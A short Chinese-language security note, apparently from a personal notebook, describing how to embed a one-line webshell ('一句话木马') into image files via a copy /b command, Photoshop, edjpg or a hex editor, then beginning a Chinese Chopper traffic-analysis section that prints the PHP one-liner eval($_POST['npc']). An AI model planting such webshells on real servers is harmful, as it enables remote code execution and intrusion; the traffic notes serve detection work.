 copy命令：

```
CMD命令：copy 1.jpg/b+1.php/a 2.jpg
```

PS软件：

```
PS打开图片，在文件—>文件简介里插入需要的木马代码，最后：文件—>保存【保存：覆盖原文件，也可以另存为其他格式】。
```

edjpg软件：

```
将图片直接拖到edjpg.exe上，在弹出窗口内输入一句话木马即可。
```

十六进制编辑器：

```
用010 Editor或winhex等十六进制编辑器打开图片，将一句话木马插入到右边最底层或最上层后保存。
```

## Webshell流量分析

### CKnife 菜刀

#### 基础代码

```php
# npc.php
<?php eval($_POST["npc"]);?>
```

#### 流量特征

- 明文传输。
- npc是php一句话木马的password。


![img](images/Webshell流量分析/202211091032518.png)

